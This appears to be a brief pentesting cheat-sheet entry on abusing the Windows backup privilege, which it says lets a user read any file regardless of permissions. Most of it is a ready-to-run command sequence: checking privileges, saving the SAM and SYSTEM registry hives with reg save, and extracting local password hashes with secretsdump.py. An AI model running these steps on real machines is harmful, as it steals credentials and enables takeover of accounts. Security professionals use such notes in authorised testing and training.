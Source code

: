 ## What ?
Allows a user to bypass ACL checks and read any file on the system, regardless of its permissions. This is mainly used by backup tools to retrieve file contents without normal access restrictions.

### How to ?
Check privilege of user
```
whoami /priv
```
Copy SAM and SYSTEM files
```
reg save hklm\sam C:\Users\enterpriseuser\sam.bak
reg save hklm\system C:\Users\enterpriseuser\system.bak
```
Download file and hashdump
```
secretsdump.py -sam sam.bak -system system.bak LOCAL 
```

